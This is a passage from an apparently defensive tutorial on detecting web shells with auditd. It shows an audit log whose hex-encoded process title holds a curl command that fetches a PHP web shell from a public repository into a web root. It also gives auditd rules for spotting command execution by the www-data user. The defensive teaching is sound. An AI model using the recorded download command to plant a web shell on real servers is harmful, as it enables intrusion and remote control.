 And you can search for all write or updates to files in `/var/www/html` using the filter `tags: www_changes` or `key="www_changes"`

The raw _auditd_ logs looks like this

<pre class="highlight"><code>type=SYSCALL msg=audit(1637597150.454:10650): arch=c000003e syscall=257 success=yes exit=4 a0=ffffff9c a1=556e6969fbc0 a2=241 a3=1b6 items=2 ppid=12962 pid=13086 <u><b>auid=1000 uid=0 gid=0 euid=0</b></u> suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=pts0 ses=11 <u><b>comm="curl" exe="/usr/bin/curl"</b></u> subj==unconfined <u><b>key="www_changes"</b></u>, type=PATH msg=audit(1637597150.454:10650): item=0 <u><b>name="/var/www/html"</b></u> inode=526638 dev=08:01 mode=040755 ouid=0 ogid=0 rdev=00:00 nametype=PARENT cap_fp=0000000000000000 cap_fi=0000000000000000 cap_fe=0 cap_fver=0, type=PATH msg=audit(1637597150.454:10650): item=1 <u><b>name="backdoor_shell.php"</b></u> inode=527243 dev=08:01 mode=0100644 ouid=0 ogid=0 rdev=00:00 <u><b>nametype=CREATE</b></u> cap_fp=0000000000000000 cap_fi=0000000000000000 cap_fe=0 cap_fver=0, type=PROCTITLE msg=audit(1637597150.454:10650): <u><b>proctitle=6375726C0068747470733A2F2F7261772E67697468756275736572636F6E74656E742E636F6D2F4A6F686E54726F6F6E792F7068702D7765627368656C6C732F6D61737465722F436F6C6C656374696F6E2F5048505F5368656C6C2E706870002D6F006261636B646F6F725F7368656C6C2E706870</b></u>
</code></pre>

This allows us to note:

*   `euid=0` effective UID of the action
*   `exe="/usr/bin/curl”` the command that was run
*   `name="/var/www/html" ... name="backdoor_shell.php"` the output file
*   `key="www_changes"` the key of the auditd alert that was fired
*   `proctitle=63757...` is the hex encoded title of the process which is our original curl command 

**Notes on file integrity monitoring for detecting web shells**

There are other ways to check. For example, if there is version control (like git), you can compare the current state with a known good state and investigate the differences. 

However, if there are folders where we expect specific files to be written and modified often, such as upload directories, then file integrity monitoring might not be fully effective. We might have to fine-tune this alert and try to exclude these upload directories to reduce noise, but how would you detect web shells uploaded within the upload directory! 

We need to look for more effective means of detecting web shells.

#### 1.4 Detection: Looking for command execution for www-data using auditd

When we run webservers such as `nginx` the service will run under the user `www-data` . On regular operations, we should not expect to see that user running commands such as `whoami` or `ls` 

However, if there was a web shell, these are some of the commands we are most likely going to see. Therefore, we should try to use `auditd` to detect these.

Here is an auditd rule that will look for `execve` syscalls by `www-data` (euid=33) and we tag this as `detect_execve_www` 

```
-a always,exit -F arch=b64 -F euid=33 -S execve -k detect_execve_www  
-a always,exit -F arch=b32 -F euid=33 -S execve -k detect_execve_www
```

We run the following commands on our webshell
